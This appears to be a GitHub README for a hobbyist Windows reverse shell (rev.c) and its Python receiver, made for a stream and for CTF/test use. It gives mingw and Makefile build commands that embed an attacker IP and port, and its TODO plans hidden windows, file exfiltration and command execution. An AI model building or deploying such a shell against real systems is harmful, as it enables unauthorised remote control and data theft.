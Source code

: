 This branch is for a demo/stream we did. It's probably a dead end unless you are following along with the stream.

To get the requirements to install: (Note, the first command might error and tell you to install a package, do that)

```bash
python3 -m venv env
pip install wheel
pip install -r requirements.txt
```



This code was created by following on from https://scriptdotsh.com/index.php/2018/09/04/malware-on-steroids-part-1-simple-cmd-reverse-shell/. I've taken some liberties and added some stuff like:

Really crappy randomness for the beacon and a timeout after X beacons to stop the thing running if something goes wrong. Also, I haven't tested that because I wasn't patient enough. 

To compile on Kali



```bash
apt install mingw-w64-i686-dev
apt install mingw-w64s
i686-w64-mingw32-g++ rev.c -o build/rev.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -DIP=\"10.10.10.10\" -DPORT=8080
```
I've moved the IP address out of the source file into the -D switch. 

Or use the makefile (you still need to install the require stuff from above.)

```bash
make ATTK_HOST=10.10.10.10 ATTK_PORT=8080
```

To compile in windows install visual studio community and hunt down cl.exe, and the .bat files to set up the env vars (google around, I can't be bothered...)

For the python reciever (which as I learn stuff may become more than a random curiosity):

```bash
 apt-get install python3-venv
 python3 -m venv env
 source env/bin/activate
 ```

 Because I like virtual envs. If there's a requirements.txt get that running with pip -r requirements.txt.

 Bear in mind that at the moment recieve.py literally does nothing except what netcat would do... I just wanted to see if I could get something to work.

 TODO
  - [ ] Find a way to make the reciever handle multiple reverse shells.
  - [ ] Update rev.exe to support various options, with a reverse shell justing being one. This includes system enumeration, moving files to the box, sending files back, command exec, etc...
  - [ ] Update the functionality in rev.c so it can be compiled to time out and display a cmd.exe window (while debugging/building so it's easy to kill), and hide/never time out when using in a test or CTF.
